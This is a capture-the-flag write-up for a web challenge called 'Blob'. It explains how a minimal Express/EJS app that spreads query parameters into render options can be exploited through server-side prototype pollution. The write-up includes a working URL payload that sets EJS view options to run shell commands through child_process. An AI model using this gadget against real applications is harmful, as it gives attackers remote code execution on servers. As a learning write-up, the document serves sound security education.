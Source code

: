 ### Challenge ###
Blob
334
Medium
blob says: blob

http://chal.competitivecyber.club:3000

Flag format: CACI{.*}

Author: CACI

### Solution ###

We have the source code of the website:
```
require("express")()
  .set("view engine", "ejs")
  .use((req, res) => res.render("index", { blob: "blob", ...req.query }))
  .listen(3000);
```

The source code is very small and doesn't have much to explore.
This challenge was vulnerable to server side prototype pollution.
We can add any number of get parameters into path.

When I started to solve the challenge i was stuck for a long time and then found this video: https://youtu.be/omMMpjywq64?si=0Q873VrRSxSEeos5

Even though this video talks about ssti it gave me the hint that we can also pass options with the data and then this writeup gave me the gadgets for rce: https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce#sspp_gadget

In the end I came up with this payload:
```
http://chal.competitivecyber.club:3000/?settings[view+options][client]=1&settings[view+options][escape]=console.log;return%20global.process.mainModule.constructor._load(%22child_process%22).execSync(%22ls%22);
```
The client and escape are both part of view options so we can pollute both of these to get rce.
The payload becomes something like this in the backend:
```
{
  settings: {
    'view options': {
      client: '1',
      escape: 'console.log;return global.process.mainModule.constructor._load("child_process").execSync("ls");'
    }
  }
}
```
